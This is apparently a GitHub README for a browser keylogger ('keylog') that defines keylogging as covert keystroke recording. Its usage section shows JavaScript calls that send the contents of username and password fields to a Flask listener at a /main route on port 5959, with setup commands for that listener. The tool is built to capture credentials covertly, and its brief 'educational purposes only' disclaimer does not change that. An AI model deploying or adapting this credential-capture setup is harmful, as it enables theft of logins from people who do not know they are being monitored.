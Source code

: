 # keylog

keylogging or keyboard capturing, is the action of recording (logging) the keys struck on a keyboard, typically covertly, so that a person using the keyboard is unaware that their actions are being monitored.

## Disclaimer
This script is for educational purposes only. Do not use it for illegal activities. You are solely responsible for your own actions!

## Usage
> keylogger.js
```js
// Call the send function
send(element_id, server_url, parameter_name);

// For listener.py
// According to listener.py the route should be '/main'
// Parameters for username and password should be username and password
send('user','http://localhost:5959/main','username');
send('pass','http://localhost:5959/main','password');
```
> listener.py
```bash
# install flask
pip3 install flask
```
runs on port 5959

